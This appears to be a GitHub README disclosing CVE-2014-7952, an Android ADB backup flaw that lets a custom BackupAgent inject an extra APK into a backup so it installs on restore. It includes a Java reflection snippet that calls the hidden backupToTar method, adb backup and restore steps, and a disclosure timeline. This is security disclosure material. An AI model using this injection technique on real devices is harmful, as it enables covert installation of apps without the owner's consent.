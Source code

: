 # ADB-Backup-APK-Injection
Android ADB backup APK Injection POC. Discovered by Imre Rad (SEARCH-LAB Ltd.), Hungary.

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a [BackupAgent](http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application.
The Backup Manager can be exploited through simple reflection:

```
	  String packageName = "com.searchlab.wifitest"; // package name of the application to be injected
	  
	  Method backupToTar;
	  Method getData;
		try {
			Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");

			Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
			
			backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
			backupToTar.setAccessible(true);		
			
			getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
			getData.setAccessible(true);
			Object backupData = getData.invoke(data);
			
			 
			backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
			backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
		    
			Log.v("MYBACKUP", "backuptotar invoked!");
			
		} catch (Exception e) {
			e.printStackTrace();
		}
```

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):
![ADB Backup Injection, custom BackupAgent](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Step 5: Verify that Wifi Test application was indeed installed:
![ADB Backup Injection, injected Application](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, injected Application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today, 2015-07-08, all Android versions are affected, including Android L.

Timeline
--------
SEARCH-LAB Ltd. responsibly reported this threat to the Android security team. At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team
2014-07-28: Google refused to treat the issue as a potential threat, but requested to hold off publishing it
2014-10-15: Google answered that it did not get fixed in the L release and kept requesting to hold off publishing it
2015-06-02: Google promised further info in a few days, but it never arrived

